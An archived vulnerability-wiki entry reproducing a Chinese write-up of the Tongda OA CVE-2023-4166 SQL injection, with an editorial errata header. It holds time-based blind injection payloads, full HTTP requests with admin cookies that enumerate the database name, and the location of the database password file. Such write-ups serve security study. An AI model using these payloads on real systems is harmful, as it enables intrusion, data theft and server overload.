# 某达 oa 存在 SQL 注入漏洞 (CVE-2023-4166)

> 编号角色校订（2026-10-04）：按归档技术正文区分主讨论编号与背景引用，更新 `primary_identifiers` / `referenced_identifiers` 及旧字段角色。旧编号原值、状态与正文保持原样，变更前字段逐字保存在 `previous_*`；后文旧的角色待核说明应按当前字段阅读。这里的角色判读不等于官方分配核验或漏洞复现。

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：通达OA CVE-2023-4166 delete_log SQLi
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：所有复现带admin cookie，需管理员/印章管理角色前提，不能默认未授权；未列受影响版本/首修版本，只称最新，环境需私聊，关键代码仅图；时间差只截图缺对照数值/重试统计，数据库任意信息结论受账号权限
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 标题某达但正文明确通达OA
2. 所有复现带admin cookie，需管理员/印章管理角色前提，不能默认未授权
3. 未列受影响版本/首修版本，只称最新，环境需私聊，关键代码仅图
4. 请求行含未编码空格且头之间空行破坏HTTP，重复五组可整理为参数化教学
5. information_schema笛卡尔积时间测试高负载且delete_log本身可能删日志，不能称无损
6. 时间差只截图缺对照数值/重试统计，数据库任意信息结论受账号权限
7. 本机读取my.ini是管理访问不是注入证据
8. 工具链接含空格且无来源校验，VDB编号无直链

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://mp.weixin.qq.com/s/Uhm6xmYmihRk0b0xVAzo7Q>

### 归档技术正文

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Uhm6xmYmihRk0b0xVAzo7Q)

```
声明：该公众号分享的安全工具、漏洞复现和项目均来源于网络，仅供安全研究与学习之用，
如用于其他用途，由使用者承担全部法律及连带责任，与工具作者和本公众号无关。

```

漏洞描述:

  某达 OA 中发现一个漏洞，并被列为严重漏洞。该漏洞影响文件 general/system/seal_manage/dianju/delete_log.php 的未知代码。对参数 DELETE_STR 的操作会导致 sql 注入。该漏洞已向公众披露并可能被使用。升级到版本最新版本可以解决这个问题。建议升级受影响的组件。VDB-236182 是分配给此漏洞的标识符。

回复 4166 可获取环境下载地址，下载之后直接下一步安装即可



到最后这步即安装成功，默认配置即可，如端口被占用可更换一个其他端口



安装之后访问网页 127.0.0.1 如图表示安装成功



此时可以打开通达的安装目录查看源代码如图:



发现代码被使用 Zend 加密，可以使用工具进行解密

http://www.xsssql.com/wp-content/uploads/2023/08/Zend 解密工具 SeayDzend.zip



路径：general/system/seal_manage/dianju/delete_log.php

注入参数：$DELETE_STR

打开存在漏洞的源码如下:



以下有效载荷可以确定数据库名称的第一个字符是 T，ascii 84 也对应于大写字母 T。这样，可以通过盲注入获得数据库名称和任何数据库信息。

测试 poc 如下 (该语句用于检测数据库第一个字符):

```
1)%20and%20(substr(DATABASE(),1,1))=char(84)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1

```



当我们把 84 换成 85 延时如下:

```
1)%20and%20(substr(DATABASE(),1,1))=char(85)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1

```



连接数据库信息如图:



继续猜数据库第二位字符 POC 如下 ascii 68 对应大写字母 D:

```
GET /general/system/seal_manage/dianju/delete_log.php?DELETE_STR=1) and (substr(DATABASE(),2,1))=char(68) and (select count(*) from information_schema.columns A,information_schema.columns B) and(1)=(1 HTTP/1.1


Host: 192.168.8.187


Upgrade-Insecure-Requests: 1


User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36


Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7


Referer: http://192.168.8.187/general/index.php?isIE=0&modify_pwd=0


Accept-Encoding: gzip, deflate


Accept-Language: zh-CN,zh;q=0.9


Cookie: PHPSESSID=4n867pmrrp4nendg0tsngl7g70; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=c74d7ebb


Connection: close


```



换成 69 延时如图



枚举数据库第三位 POC 如下:

```
GET /general/system/seal_manage/dianju/delete_log.php?DELETE_STR=1) and (substr(DATABASE(),3,1))=char(95) and (select count(*) from information_schema.columns A,information_schema.columns B) and(1)=(1 HTTP/1.1


Host: 192.168.8.187


Upgrade-Insecure-Requests: 1


User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36


Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7


Referer: http://192.168.8.187/general/index.php?isIE=0&modify_pwd=0


Accept-Encoding: gzip, deflate


Accept-Language: zh-CN,zh;q=0.9


Cookie: PHPSESSID=4n867pmrrp4nendg0tsngl7g70; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=c74d7ebb


Connection: close


```



第 4 位 POC 如下:

```
GET /general/system/seal_manage/dianju/delete_log.php?DELETE_STR=1) and (substr(DATABASE(),4,1))=char(79) and (select count(*) from information_schema.columns A,information_schema.columns B) and(1)=(1 HTTP/1.1


Host: 192.168.8.187


Upgrade-Insecure-Requests: 1


User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36


Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7


Referer: http://192.168.8.187/general/index.php?isIE=0&modify_pwd=0


Accept-Encoding: gzip, deflate


Accept-Language: zh-CN,zh;q=0.9


Cookie: PHPSESSID=4n867pmrrp4nendg0tsngl7g70; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=c74d7ebb


Connection: close


```

第 5 位

```
GET /general/system/seal_manage/dianju/delete_log.php?DELETE_STR=1) and (substr(DATABASE(),5,1))=char(65) and (select count(*) from information_schema.columns A,information_schema.columns B) and(1)=(1 HTTP/1.1


Host: 192.168.8.187


Upgrade-Insecure-Requests: 1


User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36


Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7


Referer: http://192.168.8.187/general/index.php?isIE=0&modify_pwd=0


Accept-Encoding: gzip, deflate


Accept-Language: zh-CN,zh;q=0.9


Cookie: PHPSESSID=4n867pmrrp4nendg0tsngl7g70; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=c74d7ebb


Connection: close


```



猜解后对数据库名进行拼接为: TD_OA

另外通达 OA 安装后默认数据库密码位置为（每台机器的密码均不一样为随机生成的密码）:

```
通达安装目录/mysql5/my.ini

```

打开之后用记事本查看配置项 password = 即可，默认端口为 3336



如需获取安装包或 php 解密工具欢迎添加作者微信 sqlxss 为好友


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
